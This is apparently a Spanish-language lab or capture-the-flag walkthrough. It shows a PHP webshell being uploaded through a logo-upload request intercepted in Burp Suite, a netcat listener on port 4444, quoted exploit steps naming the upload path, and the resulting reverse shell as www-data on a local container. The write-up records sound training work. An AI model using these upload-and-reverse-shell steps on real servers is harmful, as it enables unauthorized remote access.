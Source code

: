 
Intercepto la peticion con burpsuite al darle al boton de Guardar.
![image](https://github.com/user-attachments/assets/67de6308-4695-4cb3-ae8c-0424656eef3f)



Así me queda la peticion:
![image](https://github.com/user-attachments/assets/b20a8df7-a491-4c26-96d5-36c95c5d8cbc)




Se ha creado el objeto con nuestra webshell
![image](https://github.com/user-attachments/assets/e6b0dc10-0d90-42e4-8480-3a9f85cb3e31)



Ahora hay que ejecutarlo.
Deasctivo Burpsuite.
Pongo netcat a la escucha

```
└─# nc -nlvp 4444      
listening on [any] 4444 …
```

Y sigo las instrucciones del exploit:

```
5) You will get the response that your file was uploaded ok:

{"status":"Success","message":"Subscription updated successfully"}


6) Your file will be located in:
http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php

```
![image](https://github.com/user-attachments/assets/67632a33-e8a7-4172-9089-3d4e306c08dc)



Hago click en mi shell. (1720895143-test.php)


```
└─# nc -nlvp 4444      
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50294
Linux b24b67d706ea 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64 GNU/Linux
 18:34:02 up  1:20,  0 user,  load average: 0.31, 0.42, 0.51
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b24b67d706ea:/$ 
```
Estamos dentro!!

